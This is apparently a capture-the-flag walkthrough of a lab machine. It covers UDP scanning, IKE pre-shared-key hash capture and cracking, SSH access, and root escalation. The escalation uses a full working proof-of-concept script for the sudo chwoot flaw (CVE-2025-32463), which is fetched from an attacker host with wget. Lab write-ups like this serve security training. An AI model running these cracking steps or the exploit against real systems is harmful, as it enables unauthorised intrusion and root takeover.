

## Table of Contents

- [Summary](#Summary)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Enumeration of Port 500/UDP](#Enumeration-of-Port-500UDP)
    - [Catching the Hash of the Pre-Shared-Key (PSK)](#Catching-the-Hash-of-the-Pre-Shared-Key-PSK)
- [Initial Access](#Initial-Access)
    - [Cracking the Hash using psk-crack](#Cracking-the-Hash-using-psk-crack)
    - [Shell as ike](#Shell-as-ike)
- [user.txt](#usertxt)
- [Enumeration](#Enumeration)
- [Privilege Escalation to root](#Privilege-Escalation-to-root)
    - [CVE-2025-32463: chwoot sudo Privilege Escalation](#CVE-2025-32463-chwoot-sudo-Privilege-Escalation)
- [root.txt](#roottxt)

## Summary

The box starts with only port `22/TCP` open which leads to a `UDP Scan` using `Nmap`. This reveals port `500/UDP` to be open which is usually part of an `Internet Protocol Security (IPsec)` configuration to instantiate secure connections between two systems.

By using `ike-scan` the `Pre-Shared-Key (PSK)` can be obtained and afterwards `cracked` using `psk-crack`. This grants `Initial Access` on the box and allows the `user.txt` to be grabbed.

For the `Privilege Escalation` the use of `CVE-2025-32463` aka `chwoot` is required. The `Proof of Concept (PoC)` exploit allows the abuse of a flaw in `sudo` and drops right into a `shell` as `root`.

## Reconnaissance

### Port Scanning

As always we started with our initial `port scan` using `Nmap`. But this box had a little surprise in terms of available ports. It only showed port `22/TCP` as open on the `TCP-side` of things.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p- 10.129.166.212 --min-rate 10000
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-20 21:09 CEST
Nmap scan report for 10.129.166.212
Host is up (0.14s latency).
Not shown: 64929 filtered tcp ports (no-response), 605 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 14.72 seconds
```

Therefore we immediately started running a `UDP Scan` and found port `500/UDP` to be open. This is usually part of a `Internet Protocol Security (IPsec)` configuration on which the `Internet Security Association and Key Management Protocol (ISAKMP)` is used to `exchange` the `cryptographic material` on `Phase 1` to `instantiate` a `secure connection` aka `IPsec Tunnel`.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -sU 10.129.166.212
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-20 21:10 CEST
Nmap scan report for 10.129.166.212
Host is up (1.4s latency).
Not shown: 996 closed udp ports (port-unreach)
PORT     STATE         SERVICE   VERSION
68/udp   open|filtered dhcpc
69/udp   open|filtered tftp
500/udp  open          isakmp?
4500/udp open|filtered nat-t-ike
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port500-UDP:V=7.95%I=7%D=9/20%Time=68CF0070%P=x86_64-pc-linux-gnu%r(IKE
SF:_MAIN_MODE,70,"\0\x11\"3DUfw\x12JE:\x15V\x92\x20\x01\x10\x02\0\0\0\0\0\
SF:0\0\0p\r\0\x004\0\0\0\x01\0\0\0\x01\0\0\0\(\x01\x01\0\x01\0\0\0\x20\x01
SF:\x01\0\0\x80\x01\0\x05\x80\x02\0\x02\x80\x04\0\x02\x80\x03\0\x01\x80\x0
SF:b\0\x01\x80\x0c\0\x01\r\0\0\x0c\t\0&\x89\xdf\xd6\xb7\x12\0\0\0\x14\xaf\
SF:xca\xd7\x13h\xa1\xf1\xc9k\x86\x96\xfcwW\x01\0")%r(IPSEC_START,9C,"1'\xf
SF:c\xb08\x10\x9e\x89\x07\xf2B\x03\xd8Ij`\x01\x10\x02\0\0\0\0\0\0\0\0\x9c\
SF:r\0\x004\0\0\0\x01\0\0\0\x01\0\0\0\(\x01\x01\0\x01\0\0\0\x20\x01\x01\0\
SF:0\x80\x01\0\x05\x80\x02\0\x02\x80\x04\0\x02\x80\x03\0\x03\x80\x0b\0\x01
SF:\x80\x0c\x0e\x10\r\0\0\x0c\t\0&\x89\xdf\xd6\xb7\x12\r\0\0\x14\xaf\xca\x
SF:d7\x13h\xa1\xf1\xc9k\x86\x96\xfcwW\x01\0\r\0\0\x18@H\xb7\xd5n\xbc\xe8\x
SF:85%\xe7\xde\x7f\0\xd6\xc2\xd3\x80\0\0\0\0\0\0\x14\x90\xcb\x80\x91>\xbbi
SF:n\x08c\x81\xb5\xecB{\x1f");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1209.73 seconds
```

### Enumeration of Port 500/UDP

For the `enumeration` of the open port we used `ike-scan` and got some useful information out of it. First of all we noticed that a very weak and deprecated `Encryption Algorithm` (`3DES`) and `hash` (`SHA1`) were used. Further we got value of `ike@expressway.htb`.

```shell
┌──(kali㉿kali)-[~]
└─$ ike-scan -A 10.129.166.212            
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.129.166.212  Aggressive Mode Handshake returned HDR=(CKY-R=d60c72ccfbeea4ba) SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800) KeyExchange(128 bytes) Nonce(32 bytes) ID(Type=ID_USER_FQDN, Value=ike@expressway.htb) VID=09002689dfd6b712 (XAUTH) VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0) Hash(20 bytes)

Ending ike-scan 1.9.6: 1 hosts scanned in 0.056 seconds (17.90 hosts/sec).  1 returned handshake; 0 returned notify
```

| Username |
| -------- |
| ike      |

### Catching the Hash of the Pre-Shared-Key (PSK)

Next we grabbed the `Pre-Shared-Key (PSK)` in order to crack it.

```shell
┌──(kali㉿kali)-[~]
└─$ ike-scan -A 10.129.166.212 --id=ike@expressway.htb -P
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.129.166.212  Aggressive Mode Handshake returned HDR=(CKY-R=9b0d20815bf253aa) SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800) KeyExchange(128 bytes) Nonce(32 bytes) ID(Type=ID_USER_FQDN, Value=ike@expressway.htb) VID=09002689dfd6b712 (XAUTH) VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0) Hash(20 bytes)

IKE PSK parameters (g_xr:g_xi:cky_r:cky_i:sai_b:idir_b:ni_b:nr_b:hash_r):
ee51c8db4d2444ca3924194e60f4d2f8e38f4e3f50fa28738224312d044fa1dcc5ed5360b129831957c8b665a7ab8247d9ed262b5cdad52961d78e84c4b75cf48342095100fc5ddf4efd0bdcc4ffd6a75b79cfde55d86c8f5c4af700869223250844ae505f2b9492c76a5cb538e4270a7dd780e196f0c895c0875b6805a023c1:4e25ddc71035da5aec88414607cec375e39931f442bf141eecc2e0179eeba3a6e0f230e35767592a7c8367d7814b6608b483276aab803384c5728f225a047eb435e619bf51def20ce1b9229c827fb29263bd69fd6d5efd4362def8b2c6721c2a35164d3821717c82e1bf7818d18d67ab13fdd356a593342e1a7f9b3574b737bc:9b0d20815bf253aa:9085afc5f039c682:00000001000000010000009801010004030000240101000080010005800200028003000180040002800b0001000c000400007080030000240201000080010005800200018003000180040002800b0001000c000400007080030000240301000080010001800200028003000180040002800b0001000c000400007080000000240401000080010001800200018003000180040002800b0001000c000400007080:03000000696b6540657870726573737761792e687462:1600234b9359f6985406053f0967d9cb78cb01a8:c5bcca89e54ef61308ae0abc45d874c6341971c6f86565ee36742ff362e4f48b:433fc700f22cf267599381dd0a30b4a088481583
Ending ike-scan 1.9.6: 1 hosts scanned in 0.645 seconds (1.55 hosts/sec).  1 returned handshake; 0 returned notify
```

## Initial Access

### Cracking the Hash using psk-crack

The use of `psk-crack` made it easy and we retrieved the `cleartext password` after a few seconds.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Expressway/files]
└─$ cat hash
95b1e647da122ed9eddc963d923e12c5b7eaed25f03e1be09aeb7a3cb7ec572b80c37dcd2c2ad62cbcd12d284f6db6468f55ca0b50fd31a775e0b7c05f5b33edb3d14ef4c20b20e2a76349f1807c0d75d1677cf8f350d93a126f85d008784210a24eea31ba9b6f747a5b076691db5634b4673ee4ec026fb31694a93191ddb159:f3d3c6a2e654314e57f2b80956b4830dd620fa3561ac02a68cad4112bd22911bcaaec9ec83ab526fd3ba3adc7c6d0bb373a63019175d8faa40ef0050c5a5cd49296941203de7a06925a1dd5588387118dcbaa4c5344676d1e1e8d421aaad6dd044f5ebdca59b85af0747f7a24610e97460d6de884197c061cbf8dc612ee5faa8:4485842667a011cb:4a7942f5f92d06ee:00000001000000010000009801010004030000240101000080010005800200028003000180040002800b0001000c000400007080030000240201000080010005800200018003000180040002800b0001000c000400007080030000240301000080010001800200028003000180040002800b0001000c000400007080000000240401000080010001800200018003000180040002800b0001000c000400007080:03000000696b6540657870726573737761792e687462:deb27dfd1b5e68bb96f7a1e1842663dfc308a503:447f6a20afcda572398a6c6321c8230d7e8fdd46a61184dc9f2604605ec452cd:2876ade383f17c83baefd56b6a552f35ee107735
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Expressway/files]
└─$ psk-crack hash -d /usr/share/wordlists/rockyou.txt 
Starting psk-crack [ike-scan 1.9.6] (http://www.nta-monitor.com/tools/ike-scan/)
Running in dictionary cracking mode
key "freakingrockstarontheroad" matches SHA1 hash 2876ade383f17c83baefd56b6a552f35ee107735
Ending psk-crack: 8045040 iterations in 13.084 seconds (614856.78 iterations/sec)
```

| Password                  |
| ------------------------- |
| freakingrockstarontheroad |

### Shell as ike

This allowed us to login to the box and to grab the `user.txt`.

```shell
┌──(kali㉿kali)-[~]
└─$ ssh ike@10.129.166.212
The authenticity of host '10.129.166.212 (10.129.166.212)' can't be established.
ED25519 key fingerprint is SHA256:fZLjHktV7oXzFz9v3ylWFE4BS9rECyxSHdlLrfxRM8g.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.166.212' (ED25519) to the list of known hosts.
ike@10.129.166.212's password: 
Last login: Wed Sep 17 12:19:40 BST 2025 from 10.10.14.64 on ssh
Linux expressway.htb 6.16.7+deb14-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.16.7-1 (2025-09-11) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Sep 20 20:22:10 2025 from 10.10.16.20
ike@expressway:~$
```

## user.txt

```shell
ike@expressway:~$ cat user.txt 
bf1e3ff0f8e4b088d28b26776a57adab
```

## Enumeration

A quick `enumeration` of the user `ike` showed an unusual `group membership` of `proxy` and when we took a closer look at `sudo` we spotted a potentially vulnerable version.

```shell
ike@expressway:~$ id
uid=1001(ike) gid=1001(ike) groups=1001(ike),13(proxy)
```

```shell
ike@expressway:~$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

For security reasons, the password you type will not be visible.

Password: 
Sorry, user ike may not run sudo on expressway.
```

```shell
Sorry, user ike may not run sudo on expressway.
```

```shell
ike@expressway:~$ sudo -V
Sudo version 1.9.17
Sudoers policy plugin version 1.9.17
Sudoers file grammar version 50
Sudoers I/O plugin version 1.9.17
Sudoers audit plugin version 1.9.17
```

## Privilege Escalation to root

### CVE-2025-32463: chwoot sudo Privilege Escalation

For the `Privilege Escalation` we used the `Proof of Concept (PoC)` exploit of `pr0v3rbns` for `CVE-2025-32463` aka `chwoot` to drop into a `shell` as `root`.

- [https://github.com/pr0v3rbs/CVE-2025-32463_chwoot](https://github.com/pr0v3rbs/CVE-2025-32463_chwoot)

```shell
#!/bin/bash
# sudo-chwoot.sh
# CVE-2025-32463 – Sudo EoP Exploit PoC by Rich Mirch
#                  @ Stratascale Cyber Research Unit (CRU)
STAGE=$(mktemp -d /tmp/sudowoot.stage.XXXXXX)
cd ${STAGE?} || exit 1

if [ $# -eq 0 ]; then
    # If no command is provided, default to an interactive root shell.
    CMD="/bin/bash"
else
    # Otherwise, use the provided arguments as the command to execute.
    CMD="$@"
fi

# Escape the command to safely include it in a C string literal.
# This handles backslashes and double quotes.
CMD_C_ESCAPED=$(printf '%s' "$CMD" | sed -e 's/\\/\\\\/g' -e 's/"/\\"/g')

cat > woot1337.c<<EOF
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void woot(void) {
  setreuid(0,0);
  setregid(0,0);
  chdir("/");
  execl("/bin/sh", "sh", "-c", "${CMD_C_ESCAPED}", NULL);
}
EOF

mkdir -p woot/etc libnss_
echo "passwd: /woot1337" > woot/etc/nsswitch.conf
cp /etc/group woot/etc
gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot1337.so.2 woot1337.c

echo "woot!"
sudo -R woot woot
rm -rf ${STAGE?}
```

```shell
ike@expressway:~$ wget http://10.10.16.20/sudo-chwoot.sh
--2025-09-20 20:30:54--  http://10.10.16.20/sudo-chwoot.sh
Connecting to 10.10.16.20:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1046 (1.0K) [text/x-sh]
Saving to: ‘sudo-chwoot.sh’

sudo-chwoot.sh                                                                                             100%[======================================================================================================================================================================================================================================================================================>]   1.02K  --.-KB/s    in 0.001s  

2025-09-20 20:30:54 (1.65 MB/s) - ‘sudo-chwoot.sh’ saved [1046/1046]
```

```shell
ike@expressway:~$ chmod +x sudo-chwoot.sh
```

```shell
ike@expressway:~$ ./sudo-chwoot.sh 
woot!
root@expressway:/#
```

## root.txt

```shell
root@expressway:/root# cat root.txt
4b120109f386f8bd7b5027cb87d35e4a
```
